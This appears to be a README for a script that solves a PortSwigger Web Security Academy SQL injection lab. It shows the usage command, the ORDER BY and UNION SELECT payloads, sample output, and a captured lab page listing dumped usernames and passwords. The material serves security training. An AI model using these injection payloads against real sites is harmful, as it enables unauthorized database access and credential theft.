 # 🔐 SQL injection UNION attack, retrieving data from other tables

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `table`: Name of a separate table that needs be used during UNION SQL Injection.
   - `columns`: A list of columns can be passed by the user separated by space.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and use beautiful soup library to fetch the password for administrator
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionRetrieveFromOtherTable.py https://0aed00af03273e1580eb30a8009f0001.web-security-academy.net users username password
```

### ✅ Sample Output

```
(+) Targeting: https://0aed00af03273e1580eb30a8009f0001.web-security-academy.net
(+) Determining number of columns using ORDER BY...

    ➤ Testing payload: ' ORDER BY 1--
    ➤ Testing payload: ' ORDER BY 2--
    ➤ Testing payload: ' ORDER BY 3--

(✓) Found error at column 3, so total columns = 2

(+) Testing which of 2 columns accepts string data...

    ➤ Testing payload: ' UNION SELECT 'test123',null--

(✓) Column 1 accepts string data.

(+) Attempting to extract data from table 'users'...

    ➤ Final payload: ' UNION SELECT username,password FROM users--

(✓) Administrator credentials found:

    ➤ Username: administrator
    ➤ Password: arj0eaiquwuuo2bkibqk
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the administrator password in a particular html tag using web scraping to determine success. You can modify this logic in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

## Sample HTML response which was scrapped

```HTML
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=yh4tNzEh3CAooYNqTUAzN1lnEta5Ap2q; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 9012

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection UNION attack, retrieving data from other tables</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection UNION attack, retrieving data from other tables</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Gifts&apos; UNION SELECT username,password FROM users--</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Corporate+gifts">Corporate gifts</a>
                        <a class="filter-category" href="/filter?category=Gifts">Gifts</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Pets">Pets</a>
                        <a class="filter-category" href="/filter?category=Tech+gifts">Tech gifts</a>
                    </section>
                    <table class="is-table-longdescription">
                        <tbody>
                        <tr>
                            <th>Snow Delivered To Your Door</th>
                            <td>By Steam Train Direct From The North Pole
We can deliver you the perfect Christmas gift of all. Imagine waking up to that white Christmas you have been dreaming of since you were a child.
Your snow will be loaded on to our exclusive snow train and transported across the globe in time for the big day. In a few simple steps, your snow will be ready to scatter in the areas of your choosing.
*Make sure you have an extra large freezer before delivery.
*Decant the liquid into small plastic tubs (there is some loss of molecular structure during transit).
*Allow 3 days for it to refreeze.*Chip away at each block until the ice resembles snowflakes.
*Scatter snow.
Yes! It really is that easy. You will be the envy of all your neighbors unless you let them in on the secret. We offer a 10% discount on future purchases for every referral we receive from you.
Snow isn&apos;t just for Christmas either, we deliver all year round, that&apos;s 365 days of the year. Remember to order before your existing snow melts, and allow 3 days to prepare the new batch to avoid disappointment.</td>
                        </tr>
                        <tr>
                            <th>carlos</th>
                            <td>cxetkzae0p42bwxwjpza</td>
                        </tr>
                        <tr>
                            <th>Couple&apos;s Umbrella</th>
                            <td>Do you love public displays of affection? Are you and your partner one of those insufferable couples that insist on making the rest of us feel nauseas? If you answered yes to one or both of these questions, you need the Couple&apos;s Umbrella. And possible therapy.
Not content being several yards apart, you and your significant other can dance around in the rain fully protected from the wet weather. To add insult to the rest of the public&apos;s injury, the umbrella only has one handle so you can be sure to hold hands whilst barging children and the elderly out of your way. Available in several romantic colours, the only tough decision will be what colour you want to demonstrate your over the top love in public.
Cover both you and your partner and make the rest of us look on in envy and disgust with the Couple&apos;s Umbrella.</td>
                        </tr>
                        <tr>
                            <th>wiener</th>
                            <td>97bbzbscsijhbmjf2a66</td>
                        </tr>
                        <tr>
                            <th>administrator</th>
                            <td>arj0eaiquwuuo2bkibqk</td>
                        </tr>
                        <tr>
                            <th>Conversation Controlling Lemon</th>
                            <td>Are you one of those people who opens their mouth only to discover you say the wrong thing? If this is you then the Conversation Controlling Lemon will change the way you socialize forever!
When you feel a comment coming on pop it in your mouth and wait for the acidity to kick in. Not only does the lemon render you speechless by being inserted into your mouth, but the juice will also keep you silent for at least another five minutes. This action will ensure the thought will have passed and you no longer feel the need to interject.
The lemon can be cut into pieces - make sure they are large enough to fill your mouth - on average you will have four single uses for the price shown, that&apos;s nothing an evening. If you&apos;re a real chatterbox you will save that money in drink and snacks, as you will be unable to consume the same amount as usual.
The Conversational Controlling Lemon is also available with gift wrapping and a personalized card, share with all your friends and family; mainly those who don&apos;t know when to keep quiet. At such a low price this is the perfect secret Santa gift. Remember, lemons aren&apos;t just for Christmas, they&apos;re for life; a quieter, more reasonable, and un-opinionated one.</td>
                        </tr>
                        <tr>
                            <th>High-End Gift Wrapping</th>
                            <td>We offer a completely unique gift wrapping experience - the gift that just keeps on giving. We can crochet any shape and size to order. We also collect worldwide, we do the hard work so you don&apos;t have to.
The gift is no longer the only surprise. Your friends and family will be delighted at our bespoke wrapping, each item 100% original, something that will be talked about for many years to come.
Due to the intricacy of this service, you must allow 3 months for your order to be completed. So. organization is paramount, no leaving shopping until the last minute if you want to take advantage of this fabulously wonderful new way to present your gifts.
Get in touch, tell us what you need to be wrapped, and we can give you an estimate within 24 hours. Let your funky originality extend to all areas of your life. We love every project we work on, so don&apos;t delay, give us a call today.</td>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```